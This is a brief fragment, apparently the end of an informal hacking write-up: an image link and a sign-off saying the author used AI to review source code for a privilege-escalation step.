
and thats it, ngl the priv Esc i needed to use Ai , too much source code and Ai ohio reviewanyways happy hacking ladies and gents